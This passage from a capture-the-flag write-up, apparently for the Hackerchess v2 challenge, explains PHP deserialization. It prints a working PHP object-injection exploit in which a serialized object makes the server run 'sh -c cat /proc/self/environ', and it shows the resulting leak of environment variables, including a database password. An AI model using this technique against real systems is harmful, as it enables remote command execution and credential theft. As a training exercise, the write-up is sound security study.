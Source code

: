 ```php
public function __wakeup()
{
    $this->process = proc_open($this->binary, $this->descriptorspec, $this->pipes, $this->cwd, null, $this->other_options) ;
    echo '<!--'.'wakeupcalled'.fgets($this->pipes[1], 4096).'-->';
}
```

Note: it's unlikely that IRL you will find something like this, an exploit served on a silver plate. Nevertheless, PHP deserialization can lead to [real life vulnerabilities](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection) (edit: have you heard about [CVE-2022-22241](https://nvd.nist.gov/vuln/detail/CVE-2022-22241)?)

OK, we have everything we need. Let's write the exploit.

```php
<?php
class Stockfish
{
    public $binary = ['sh', '-c', 'cat /proc/self/environ'];
}

$object = new Stockfish();
$b64s = base64_encode(serialize($object));

$ch = curl_init("http://hackerchess2-web.h4ck.ctfcompetition.com/?move_end={$b64s}");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HEADER, 0);
$data = curl_exec($ch);
curl_close($ch);

echo $data
?>
```

And run it!

```shell
❯ php ./exploit.php
<html>
<head>
    <title>Hackerchess v2</title>
[...]
<!--wakeupcalledGATEWAY_INTERFACE=CGI/1.1SHLVL=1REMOTE_ADDR=10.119.220.38QUERY_STRING=move_end=Tzo5OiJTdG9ja2Zpc2giOjE6e3M6NjoiYmluYXJ5IjthOjM6e2k6MDtzOjI6InNoIjtpOjE7czoyOiItYyI7aToyO3M6MjI6ImNhdCAvcHJvYy9zZWxmL2Vudmlyb24iO319ORIG_PATH_TRANSLATED=/web-apps/php/index.phpDOCUMENT_ROOT=/web-apps/phpREMOTE_PORT=32170REDIRECT_QUERY_STRING=move_end=Tzo5OiJTdG9ja2Zpc2giOjE6e3M6NjoiYmluYXJ5IjthOjM6e2k6MDtzOjI6InNoIjtpOjE7czoyOiItYyI7aToyO3M6MjI6ImNhdCAvcHJvYy9zZWxmL2Vudmlyb24iO319REDIRECT_DB_PASSWORD=e060286e9ecfa5b7f4984bcc77eb85f9SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at hackerchess2-web.h4ck.ctfcompetition.com Port 1337</address>
--><!-- XXX : Debug remove this HTTP_ACCEPT=*/*CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/SCRIPT_FILENAME=/web-apps/php/index.phpREDIRECT_DB_HOST=chess-ai-mysqlHTTP_HOST=hackerchess2-web.h4ck.ctfcompetition.comREDIRECT_HANDLER=application/x-nsjail-httpd-phpREQUEST_URI=/?move_end=Tzo5OiJTdG9ja2Zpc2giOjE6e3M6NjoiYmluYXJ5IjthOjM6e2k6MDtzOjI6InNoIjtpOjE7czoyOiItYyI7aToyO3M6MjI6ImNhdCAvcHJvYy9zZWxmL2Vudmlyb24iO319HTTP_X_FORWARDED_FOR=185.250.190.220, 34.110.161.129_=/usr/bin/nsjailSERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)REQUEST_SCHEME=httpHTTP_CONNECTION=Keep-AliveORIG_PATH_INFO=/index.phpPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binREDIRECT_URL=/index.phpORIG_SCRIPT_NAME=/cgi-bin/nsjail-php-cgiSERVER_PROTOCOL=HTTP/1.1REDIRECT_STATUS=200REQUEST_METHOD=GETSERVER_ADMIN=[no address given]SERVER_ADDR=10.120.2.149REDIRECT_FLAG2=https://h4ck1ng.google/solve/**REDACTED**PWD=/web-apps/phpHTTP_X_FORWARDED_PROTO=httpHTTP_X_CLOUD_TRACE_CONTEXT=a2347bb04543baed0cb0dac3d51c3b2f/10072948344364838778CONTEXT_PREFIX=/cgi-bin/SERVER_PORT=1337SCRIPT_NAME=/index.phpHTTP_VIA=1.1 googleORIG_SCRIPT_FILENAME=/usr/lib/cgi-bin/nsjail-php-cgiSERVER_NAME=hackerchess2-web.h4ck.ctfcompetition.com-->
```
